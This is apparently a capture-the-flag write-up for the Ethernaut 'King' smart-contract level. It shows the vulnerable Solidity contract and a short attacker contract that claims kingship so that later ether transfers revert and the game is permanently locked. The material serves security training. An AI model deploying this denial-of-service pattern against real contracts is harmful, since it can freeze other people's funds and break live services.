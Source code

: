 # King

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}

```

## Solution

```
contract HackKing{

   function becomeKing (address payable _targetContract) public payable {
       (bool success, bytes memory returnData) =  _targetContract.call{value: msg.value}('');
    }
}

```

Provide the target contract address and pass the msg.value higher than the current prize.

### Hint from Ethernaut

Most of Ethernaut's levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.